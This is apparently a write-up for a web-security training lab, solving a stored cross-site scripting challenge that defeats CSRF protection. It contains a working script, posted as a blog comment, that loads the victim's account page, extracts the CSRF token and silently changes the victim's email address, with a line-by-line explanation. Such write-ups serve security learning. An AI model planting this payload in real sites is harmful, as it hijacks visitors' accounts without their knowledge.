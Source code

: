 ## Solution steps

- Go to any blog post and check if it's vulnerable to XSS by using the following payload as a comment with random name and email: `<script>alert(1)</script>`
- Go back to the blog post and observe an alert has been triggered.
- Log in to your account with the given credentials.
- View it's page source and observe the line: ` <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">`
- We need to issue a `POST` request to `/my-account/change-email`, with a parameter called `email`.
- There's an `anti-CSRF` token in a hidden input called `token`: `<input required type="hidden" name="csrf" value="C7pHiBh4Nl606Yhf5vNCEXzpCRt9i6a8">`
- Our exploit will need to load the user account page, extract the CSRF token, and then use the token to change the victim's email address.
- Submit the following payload in a blog comment to solve the lab:
  ```html
  <script>
  var req = new XMLHttpRequest();
  req.onload = handleResponse;
  req.open('get','/my-account',true);
  req.send();
  function handleResponse() {
      var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
      var changeReq = new XMLHttpRequest();
      changeReq.open('post', '/my-account/change-email', true);
      changeReq.send('csrf='+token+'&email=test@test.com')
  };
  </script>

### How the script works

1. Load the Account Page
   - The script sends a `GET` request to `/my-account`, which returns the HTML of the user's account page including the CSRF token in a hidden input field.
2. Extract the CSRF Token
   - The response is processed by `handleResponse()`. It uses a regular expression to extract the token from the HTML:
     ```html
     var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
3. Send the Malicious `POST` Request
   - A new `XMLHttpRequest` is made to `/my-account/change-email` with:
   - The extracted csrf token.
   - A new email (`test@test.com`).
4. Effect:
   - If a victim views the attacker's comment containing this script their email address will be silently changed to `test@test.com`.
